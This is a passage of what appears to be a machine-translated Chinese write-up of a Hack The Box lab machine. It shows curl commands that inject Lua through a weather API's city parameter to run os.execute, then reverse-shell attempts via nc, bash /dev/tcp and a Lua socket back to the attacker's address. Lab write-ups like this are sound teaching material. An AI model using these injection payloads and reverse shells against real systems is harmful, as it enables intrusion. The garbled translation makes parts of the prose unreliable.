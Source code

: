 仅发送双引号将返回错误消息，就好像该城市是：`"`

    oxdf@parrot$ curl -s 'http://10.10.10.218/weather/forecast?city="'
    {"code": 500,"error": "unknown city: ""}
    

但是，仅发送单个引号会使脚本崩溃：

    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city='"
    <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
    

如果我添加一个结束的 parens，然后添加一个注释，它实际上会发回中间截断的有效负载：

    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+--"
    {"code": 500,"error": "unknown city:
    

这表明该字符串正在该命令中构建，并且注释删除了处理关闭和 的部分。`"``}`

### 注塑成型

要从 Lua 运行命令，[请离开显示](https://gtfobins.github.io/gtfobins/lua/#sudo)它只是 。添加有效的方法：`os.execute("[command]")`

    oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+os.execute('id')+--"
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd
    

为了执行更复杂的有效负载，我将切换到让我为我的arg编码：`curl`

    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('id') --" 'http://10.10.10.218/weather/forecast' -s 
    {"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
    

`-G`将强制使用 GET 命令，并使用来自 url 而不是正文中的数据。`--data-urlencode`

### 壳

因为盒子是BSD，所以一些典型的Linux反向外壳将不起作用。我将从小事做起。可以重新连接到我吗？`nc`

    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('nc 10.10.14.11 443') --" 'http://10.10.10.218/weather/forecast' -s
    

在我的听众中有一个连接：

    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 654
    

这不是一个外壳，但我知道盒子有netcat，可以连接到我。我可以尝试，但它不起作用。运行显示该选项不存在。我的goto Bash外壳实际上确实给出了一个连接，但随后立即死亡：`-e /bin/bash``nc -h 2>&1``-e`

    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast' -s
    

我尝试了Lua shell，但所需的模块不存在：

    oxdf@parrot$ curl -G --data-urlencode "city=') require('socket');require('os');t=socket.tcp();t:connect('10.10.14.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3') --" 'http://10.10.10.218/weather/forecast' -s
    {"code": 500,"error": "unknown city: <br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
            no field package.preload['socket']
            no file '/usr/share/lua/5.3/socket.lua'
            no file '/usr/share/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.lua'
            no file '/usr/lib/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.so'
            no file '/usr/lib/lua/5.3/loadall.so'
    